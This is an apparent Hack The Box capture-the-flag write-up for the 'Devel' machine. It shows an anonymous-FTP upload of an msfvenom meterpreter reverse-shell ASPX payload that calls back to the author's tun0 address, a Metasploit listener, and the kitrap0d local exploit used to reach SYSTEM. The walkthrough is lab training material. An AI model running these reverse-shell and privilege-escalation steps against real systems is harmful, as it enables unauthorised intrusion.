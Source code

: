 ```yaml
---
title: 'HachTheBox - Devel'
date: '2021-10-05 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5".

 We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I could bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, I test it to see if we can get access. The anonymous login is successfull. We'll be using it to upload a malicious file. The malicious file will be a reverse shell that we'll be connecting to via Metasploit.

![ftp-connect](/assets/img/devel/ftp-in.png)

The snippet we need to generate our malicious file can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/". As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```. 

![msfvenom-cheatsheet](/assets/img/devel/cheatsheet.png)

Enter the snippet for ```msfvenom``` to build the file. Add your ```tun0``` IP to ```LHOST```. I changed the file extension to ASPX, but either ASP or ASPX will work.

Make sure the file extension in the command and the extension of the file your putting it in are the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![venom-snippet](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. This is what our malicious file will connect back to once we have uploaded it to the FTP server and triggered it via a browser.

![setup-listener](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our ```tun0``` network interface. We enter ```run``` to start the listener.

![run-listener](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![ftp-connect](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```. You can use the ```ls``` command to list out the files on the FTP server to confirm the ```ex.apsx``` has uploaded.

![upload-executable](/assets/img/devel/put-ex.png)

To execute the file we navigate to the url of the web server and append the file name ```http://10.10.10.5/ex.aspx```. This triggers the reverse shell. We return back to the listener session and see wee have a ```meterpreter``` session. However after typing ```getuid``` we see we have low level privilges. We need to escalate our privileges.

![get-user-id](/assets/img/devel/run-getuid.png)

For the moment we background the session.

![background-session](/assets/img/devel/bg-session.png)

In Metasploit we ```search suggester``` for a post module that will escalate our privileges. It returns one post exploit module.

![post-module-suggester](/assets/img/devel/suggester-results.png)

We ```use post/multi/recon/local_exploit_suggester```. Then set the ```options```. We only need to specify the session that we want, that's the session of the reverse shell we have with the FTP server. You can find the session number from when we ran ```background```.

![run-suggester](/assets/img/devel/use-set-run.png)

The suggester returns some possible exploits. In this instance we want to use the ```kitrap0d``` exploit. We ```use exploit/windows/local/ms10_015_kitrap0d```

![suggester-results](/assets/img/devel/suggest-results.png)

We look at the options.

![kitrap0d-exploit](/assets/img/devel/kitra-options.png)

We ```set session 2```, ```set LHOST 10.10.16.3```, and ```set LPORT 4445```. Be sure to use your ```tun0``` IP, as the exploit will have defaulted to your ```eth0``` address. And as we're already using port 4445, we want to use another port.

![set-options](/assets/img/devel/kitra-set.png)

We ```run``` the exploit, type ```getuid```, and see we now have ```AUTHORITY/SYSTEM```. This system has been owned!

![run-exploit](/assets/img/devel/kitra-run.png)

With ```search -f user.txt.txt``` and ```search -f root.txt``` you can locate the flags to fully own the system :)

![locate-flags](/assets/img/devel/locate-flags.png)








